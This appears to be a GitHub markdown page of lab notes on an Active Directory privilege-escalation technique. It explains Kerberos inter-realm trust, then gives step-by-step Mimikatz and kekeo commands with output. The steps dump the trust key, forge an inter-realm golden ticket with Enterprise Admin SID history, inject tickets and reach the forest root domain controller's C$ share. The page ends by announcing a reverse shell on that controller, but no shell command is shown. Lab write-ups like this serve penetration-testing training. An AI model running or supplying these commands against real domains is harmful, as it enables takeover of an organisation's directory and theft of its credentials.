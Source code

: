 # Across Domains Implicit Two-Way Trust Relationship

### Across Forests
A trust relationship needs to be established.

### Child to Forest Root
Domains in the same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains. There are two ways of escalating privileges between two domains of the same forest:
- Krbtgt hash
- Trust tickets

### Kerberos Authentication Process
1. Steps 1 to 3 are common.
2. Step 4: The domain controller (DC) checks the global catalog and finds out this service is not in its domain but in the parent domain. So the DC responds with an inter-realm TGT. Our machine receives the inter-realm TGT (signed and encrypted with the trust key) also called a referrer ticket.
3. Step 5: This inter-realm TGS is presented to the DC of the parent domain. The only validation the parent DC does in this case is if it can decrypt the inter-realm TGT using the trust key.
4. Step 6: The DC decrypts the inter-realm TGS.
5. Step 7: The DC responds with a TGS which the client presents to the application server, which then decides on privileges.

## Privilege Escalation - Child to Parent using Trust Tickets
### Step-by-Step Instructions
1. Once the domain admin is compromised, switch to the domain admin:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

2. Look for the cross forest or forest root trust key for privilege escalation. Retrieve the trust key for the trust between dollarcorp and moneycorp using mimikatz:
```powershell
PS C:\Windows\system32> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```

3. Find the trust key:
```powershell
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-280534878-1496970234-700767426)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
    * aes256_hmac       6520498fb98b6bf3c59b13d188b77227ae3200aa05cdad783a97500165128583
    * aes128_hmac       e65aef4c7c0d83964f6dc62560ab1aa6
    * rc4_hmac_nt       3cbaa731b987e575822f00ddd6701a7b
```

4. Create the inter-realm TGT:
```powershell
PS C:\AD\Tools\kekeo_old> Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:3cbaa731b987e575822f00ddd6701a7b /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```
![image](https://github.com/user-attachments/assets/0e24cd36-c72d-419e-977e-3d5e195c70b5)

5. Request to create a TGS ticket for a service (CIFS) in the parent domain (moneycorp.local):
```powershell
PS C:\AD\Tools\kekeo_old> .\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

6. Present the TGS to the target service:
```powershell
PS C:\AD\Tools\kekeo_old> .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
```

7. Use the TGS to access the targeted service (you may need to use it twice). For example:
```powershell
PS C:\AD\Tools\kekeo_old> .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
Destination : Microsoft LSA API (multiple)
 < .\CIFS.mcorp-dc.moneycorp.local.kirbi (RFC KRB-CRED (#22))
 > Ticket Administrator@dollarcorp.moneycorp.local-CIFS~mcorp-dc.moneycorp.local@MONEYCORP.LOCAL : injected
```

8. Try to access the target service to confirm privilege escalation:
```powershell
PS C:\AD\Tools\kekeo_old> klist
PS C:\ad\tools\kekeo_old> ls \\mcorp-dc.moneycorp.local\c$
```
![image](https://github.com/user-attachments/assets/ae250f47-f78f-4a7b-8b78-d38600527eeb)

9. Gather the krbtgt hash, and request an inter-realm tgt once again:
```powershell
PS C:\AD\Tools> Invoke-Mimikatz -Command '""Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:3cbaa731b987e575822f00ddd6701a7b /ticket:C:\AD\Tools\krbtgt_tkt.kirbi""'
```

10. Inject the ticket using mimikatz:
```powershell
PS C:\AD\Tools> Invoke-Mimikatz -Command '""Kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi""'
mimikatz(powershell) # kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi
```

11. Verify the TGT:
```powershell
PS C:\AD\Tools> klist
```
```
Current LogonId is 0:0xdac101e2

Cached Tickets: (1)

#0>     Client: Administrator @ dollarcorp.moneycorp.local
        Server: krbtgt/dollarcorp.moneycorp.local @ dollarcorp.moneycorp.local   --> krbtgt has done
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 7/15/2020 0:11:34 (local)
        End Time:   7/13/2030 0:11:34 (local)
        Renew Time: 7/13/2030 0:11:34 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

PS C:\AD\Tools>
```

12. Extract credentials of the Enterprise Administrator for use in DC-Shadow and schedule a task on the forest root DC to execute a reverse shell:
```powershell
PS C:\AD\Tools> gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local

System Directory : C:\Windows\system32 
Organization    :
Build Number     : 14393
Registered User  : Windows User
Serial Number    : 00377-80000-00000-AA549
Version         : 10.0.14393
```
Let’s extract credential of the Enterprise Administrator which can be used later for DC-Shadow. We will schedule a task on the forest root DC and execute a reverse shell on it.	

